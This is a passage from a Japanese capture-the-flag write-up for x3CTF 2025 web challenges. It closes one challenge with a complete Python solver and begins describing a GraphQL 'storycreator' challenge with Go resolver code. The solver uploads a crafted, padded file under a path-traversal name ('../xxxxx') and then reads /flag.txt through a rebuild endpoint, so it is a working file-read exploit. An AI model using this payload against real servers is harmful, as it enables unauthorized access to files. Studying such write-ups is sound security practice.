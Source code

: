 あとは、これをアップロードして`/rebuild`から読み取ることによりフラグを入手した。

### 最終的なコード

```python:solver.py
import requests

# URL = "https://45e2d4ee-d444-4631-ac4c-c1d2e59daebc.x3c.tf:31337/"
URL = "http://localhost:8080/"
EVIL = "https://tchenio.ngrok.io/"

file = b"""\\{"sections": [{"type": "link", "tag": "i", "value":  "/flag.txt", "x": "a"""
file += (b"x" * (2048 - len(file))) + b'PCD_IPI"}]}'

s = requests.session()
r = s.post(URL + "administration.php", files={
    "magician": ("x", file)
}, data={
    "name": "../xxxxx"
})

r = s.get(URL + "rebuild/?page=../xxxxx.magic")

print(r.status_code)
print(r.text)
```


## ✅ [Web] storycreator (392pts 8solves)

[ソースコード](https://github.com/x3ctf/challenges-2025/tree/main/web/StoryCreator/challenge-handout/handout)

::: details 問題設定

Story(?)を作成し、画像にレンダリングできるサイト。フロントエンドは[@apollo/client](https://www.apollographql.com/docs/react)を、サーバーは[99design/gqlgen](https://github.com/99designs/gqlgen)を利用している。

![](/assets/blog/x3c/image-4.png)

Storyの作成方法は次の通り。

1. 画像をアップロードする。
2. Storyを作成する。
  ```go:backend/pkg/graph/schema.resolver.go
  func (r *mutationResolver) CreateStory(ctx context.Context, story model1.StoryInput) (*stories.Story, error) {
    tenantID := tenant.GetTenantID(ctx)
    createdStoryID, err := r.DB.Stories.NewStory(ctx, tenantID, stories.Story{
      Text:    story.Text,
      Action:  story.Action,
      ImageID: int64(story.Image),
    })
    if err != nil {
      return nil, err
    }
    loadedStory, err := r.DB.Stories.GetStory(ctx, tenantID, createdStoryID)
    if err != nil {
      return nil, err
    }
    return loadedStory, nil
  }
  ```
3. `createStoryExport`を実行し、Storyの出力をキューする。
  ```go:backend/pkg/graph/schema.resolver.go
  func (r *mutationResolver) CreateStoryExport(ctx context.Context, export model1.StoryExportInput) (*exports.Export, error) {
  ```